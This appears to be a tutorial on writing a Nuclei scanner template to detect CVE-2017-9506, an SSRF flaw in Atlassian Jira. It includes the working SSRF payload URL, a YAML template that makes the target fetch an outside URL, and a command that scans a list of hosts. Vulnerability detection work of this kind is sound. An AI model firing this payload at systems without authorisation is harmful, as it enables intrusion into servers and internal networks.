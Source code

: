 # Template for CVE-2017-9506

CVE-2017-9506 is a full-read SSRF in Atlassian Jira. We will be creating a template to automate its detection. A successful exploitation of the CVE returns the content of the target URL provided on the page. 

The following payload detects the exploit -

```
{{BaseURL}}/plugins/servlet/oauth/users/icon-uri?consumerUri={{url_to_fetch}}
```

To identify this vulnerability, all we need to do is make a request to the above URL and find a static page that returns some unique string that can signal successful finding. We can use a hack and try to request https://ipinfo.io/json which always returns a fixed word `ipinfo.io/missingauth` in the response. Utilising this piece of info, we can create a template.

```yaml
id: CVE-2017-9506

info:
  name: Jira IconURIServlet SSRF
  author: Ice3man
  severity: high

requests:
  - method: GET
    path:
      - "{{BaseURL}}/plugins/servlet/oauth/users/icon-uri?consumerUri=https://ipinfo.io/json"
    matchers:
      - type: word
        words:
          - "ipinfo.io/missingauth"
        part: body
```

It requests the Jira SSRF URL URL and checks if the response contains the word we mentioned before. Simple as that!

```bash
# Run the above template saved in jira-ssrf.yaml on list.txt
nuclei -t jira-ssrf.yaml -l list.txt
```